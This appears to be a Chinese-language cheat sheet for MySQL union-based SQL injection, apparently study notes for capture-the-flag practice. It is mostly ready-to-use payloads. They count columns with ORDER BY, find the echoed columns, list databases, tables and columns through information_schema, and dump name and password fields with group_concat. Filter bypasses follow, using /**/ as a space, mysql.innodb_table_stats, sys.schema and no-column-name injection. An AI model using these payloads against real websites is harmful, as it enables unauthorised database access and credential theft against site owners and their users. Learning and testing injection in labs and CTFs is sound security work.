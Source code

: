 union注入:
寻找注入点，判断闭合方式，判断列数，进行函数执行回显。


1. 测试当前表的字段数：+url编码为空格
```
id =1 ' order by 1 --+

id =1 ' order by 2 --+
...
id =1 ' order by 5 --+  //若到5报错，则此表有4个字段
```
如果不能使用orderby，则可以使用groupby来进行判断列数。
<https://blog.csdn.net/qq_37232329/article/details/122586495>


2. 测试回显了的字段：
```
id = -1 ' union select 1,2,3,4 --+

id = -1 union select 1,2,3,4
id = -1 union/**/select 1,2,3,4
前报错，后替换回显1,2,3,4
```
3. 回显信息收集
拿到表所在库名，登录用户名，操作系统等。
```
所有库名
select(group_concat(schema_name))from(information_schema.schemata)
所在库名
database()
```

4. 根据库名回显库中表名：
```
union select 1,2,GROUP_CONCAT(table_name),4 from
information_schema.tables
WHERE table_schema='库名'

union select 1,2,3,GROUP_CONCAT(table_name) from
information_schema.tables
WHERE table_schema=database()

group_concat(table_name) from information_schema.tables where table_schema=database()%23
```

5. 根据表名回显表的字段：
```
select 1,2,3,GROUP_CONCAT(column_name) from information_schema.columns 
WHERE table_name='表名'
```

6. 根据表名，字段，回显纪录：
```
select 1,2,3,group_concat(name,passwd,字段) from 表名
```

^
## **绕过**
空格被过滤
空格过滤可以利用/**/代替空格。

注释符被过滤
将后面的单引|号闭合即可。

or 被过滤，orderby、information_schema都不能用。
查表名使用 select group_concat(table_name),2,3,4 from mysql.innodb_table_stats where database_name=database()

如果information_schema被禁止，通过sys.schema获取当前数据库表名

通过无列名注入获取表group_concat(某一字段所有值)。
```
SELECT group_concat(`1`) from (select 1,2 union SELECT * from dept) as t
这里需要多试几次dept表有几个字段。
如两个字段：
SELECT group_concat(b) from (select 1 as a,2 as b union SELECT * from dept) as t
```
ctf：
<https://www.cnblogs.com/hello-there/p/12918265.html>

